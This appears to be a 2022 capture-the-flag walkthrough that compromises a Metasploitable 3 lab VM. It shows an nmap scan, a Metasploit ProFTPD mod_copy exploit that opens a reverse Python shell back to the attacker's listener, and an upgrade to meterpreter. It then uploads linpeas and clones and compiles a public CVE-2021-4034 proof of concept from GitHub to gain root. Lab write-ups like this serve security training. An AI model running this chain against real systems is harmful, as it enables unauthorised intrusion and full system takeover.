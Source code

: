 # Metasploitable 3 Walkthrough
> Quasar | 2022

## Initial analysis:
Nmap scan: ``% nmap -T4 -Pn -oN nmap_ports.txt -sV 192.168.244.133`` where ``192.168.244.133`` is the IP address of the Virtual Machine
Results:
```
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http        Apache httpd 2.4.7 ((Ubuntu))
445/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 1.7
3000/tcp closed ppp
3306/tcp open   mysql       MySQL (unauthorized)
8080/tcp open   http        Jetty 8.1.7.v20120910
8181/tcp closed intermapper
Service Info: Host: UBUNTU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's try the first hit on metasploit:

``% msfconsole ``

```
msf6 > search proftpd
Matching Modules
================
   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    No     NetSupport Manager Agent Remote Buffer Overflow
   1  exploit/linux/ftp/proftp_sreplace            2006-11-26       great      Yes    ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   2  exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   3  exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   4  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution
   5  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution
```

The 4th one seems promising as the version number (1.3.5) matches with the machine.

```
msf6 > use 4
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show options

Module options (exploit/unix/ftp/proftpd_modcopy_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       HTTP port (TCP)
   RPORT_FTP  21               yes       FTP port
   SITEPATH   /var/www         yes       Absolute writable website path
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to the website
   TMPPATH    /tmp             yes       Absolute writable path
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   ProFTPD 1.3.5
```

Now, the variables ``RHOSTS`` and the ``SITEPATH`` need to be corrected.

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 192.168.244.133
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH /var/www/html
```

Also, we need to set a payload for this exploit. This module only supports cmd/unix/* payloads.
```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set payload cmd/unix/
set payload cmd/unix/bind_awk            set payload cmd/unix/generic             set payload cmd/unix/reverse_perl_ssl
set payload cmd/unix/bind_perl           set payload cmd/unix/reverse_awk         set payload cmd/unix/reverse_python
set payload cmd/unix/bind_perl_ipv6      set payload cmd/unix/reverse_perl        set payload cmd/unix/reverse_python_ssl
```
Now:

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set PAYLOAD cmd/unix/reverse_python
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set LHOST vmnet8
```
``vmnet8`` is my NAT interface (and for) which the listener will be listening on.

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 192.168.244.1:4444 
[*] 192.168.244.133:80 - 192.168.244.133:21 - Connected to FTP server
[*] 192.168.244.133:80 - 192.168.244.133:21 - Sending copy commands to FTP server
[*] 192.168.244.133:80 - Executing PHP payload /UeJyDI.php
[*] Command shell session 1 opened (192.168.244.1:4444 -> 192.168.244.133:35430) at 2022-07-30 23:15:27 +0530

```

Success, we now have a shell to work with!
```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > sessions -i 1
[*] Starting interaction with 1...

bash -i
bash: cannot set terminal process group (1794): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html$ 
```

Now, let's try for a meterpreter:

```
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST    192.168.244.1    no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION  1                yes       The session to run this module on
```
This is the output after correcting the "blank spots/incorrect variables". Now, running it gives:

```
msf6 post(multi/manage/shell_to_meterpreter) > run
[*] Post module running as background job 0.
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.244.1:4433 
[*] Sending stage (989032 bytes) to 192.168.244.133
[*] Meterpreter session 2 opened (192.168.244.1:4433 -> 192.168.244.133:49703) at 2022-07-30 23:36:49 +0530
[*] Command stager progress: 100.00% (773/773 bytes)

meterpreter > 
```

Cool!
Now, let's try to get root access on this machine.

We scan for any vulnerabilities using linpeas: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
Just download it from the web in the machine or upload it using the meterpreter.

```
meterpreter > upload CTF/Metasploitable3/uploads/linpeas.sh
[*] uploading  : /home/quasar/CTF/Metasploitable3/uploads/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 758.81 KiB (0.0%): /home/quasar/CTF/Metasploitable3/uploads/linpeas.sh -> linpeas.sh
[*] uploaded   : /home/quasar/CTF/Metasploitable3/uploads/linpeas.sh -> linpeas.sh
```

Now, running it inside the machine gives a lot of information about the machine.

```
meterpreter > shell
cd /dev/shm
bash -i
www-data@ubuntu:/run/shm$ chmod +x linpeas.sh
www-data@ubuntu:/run/shm$ ./linpeas.sh
```

Immediately, linpeas pops up with a CVE number:

```
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034
```

Now, searching for the PoC's for the CVE in internet gave: https://github.com/arthepsy/CVE-2021-4034 (credits intended)
And we have git in the machine.

So,
```
www-data@ubuntu:/run/shm$ git clone https://github.com/arthepsy/CVE-2021-4034
Cloning into 'CVE-2021-4034'...
www-data@ubuntu:/run/shm$ ls
CVE-2021-4034
linpeas.sh
www-data@ubuntu:/run/shm$ cd CVE-2021-4034
www-data@ubuntu:/run/shm/CVE-2021-4034$ ls
README.md
cve-2021-4034-poc.c
www-data@ubuntu:/run/shm/CVE-2021-4034$ cc cve-2021-4034-poc.c
www-data@ubuntu:/run/shm/CVE-2021-4034$ ./a.out
bash -i
bash: cannot set terminal process group (1794): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/run/shm/CVE-2021-4034# whoami
root
```

And we got root access for the machine.
